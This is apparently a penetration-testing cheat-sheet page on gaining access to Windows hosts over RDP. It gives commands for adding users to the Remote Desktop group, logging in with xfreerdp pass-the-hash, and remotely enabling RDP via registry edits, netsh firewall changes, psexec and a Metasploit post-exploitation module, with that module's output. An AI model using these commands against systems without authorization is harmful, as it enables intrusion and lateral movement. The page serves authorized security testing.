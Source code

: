 ```yaml
---
description: >-
  How to use RDP (Remote desktop protocol) to gain access to a host, rdp runs on
  port 3389 by default in windows.
---
```


# Remote Desktop

A user need to be part of the "Remote Desktop Users" in order to login to the host via RDP.

To add user to the "Remote Desktop users" run:

```text
net localgroup "Remote Desktop Users" UserLoginName  /add
```

## rdesktop

Remote Desktop for windows with share and 85% screen: 

`rdesktop -u username -p password -g 85% -r disk:share=/tmp/share 10.10.10.10` 

## xfreerdp

**Login using hash:**

`Xfreerdp /u:admin /d:win2012 /pth:[hash] /v:192.168.0.1` 

When CredSSP is required: 

`xfreerdp --plugin rdpdr --data disk:home:/tmp -- -f -u john 192.168.0.44` 

* To exit press 'ctrl+alt+enter' 

## remmina 

install remmina:

`apt install remmina`

have a rdp client by default which you can use to connect.

## Enable RDP

### Enable rdp from registry

```text
reg add "\\host\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Enable from netsh

```text
netsh firewall set service remoteadmin enable 
netsh firewall set service remotedesktop enable
```

### Enable using psexec

```text
psexec \\host reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
/usr/local/bin/psexec.py user:password@10.0.0.1 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

## Enable using metasploit

```text
use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[+] 	RDP Service Started
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20200520112125_default_10.50.30.103_host.windows.cle_789147.txt
[*] Post module execution completed
msf5 post(windows/manage/enable_rdp) > 

```

